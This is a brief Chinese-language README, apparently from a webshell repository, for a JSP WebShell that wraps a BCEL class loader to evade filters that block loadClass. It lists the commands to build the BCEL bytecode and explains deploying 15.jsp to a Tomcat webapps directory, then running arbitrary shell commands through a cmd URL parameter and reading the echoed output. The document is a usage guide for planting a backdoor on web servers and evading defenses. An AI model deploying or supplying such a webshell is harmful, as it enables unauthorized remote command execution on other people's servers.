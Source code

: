 ### BCEL类加载器进行一定包装-可能在某些禁了loadClass方法的地方bypass的JSP WebShell

生成BCEL字节码：
```
javac EvilMake.class Evil15.class
java EvilMake
```

使用：
```
1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问15.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/15.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```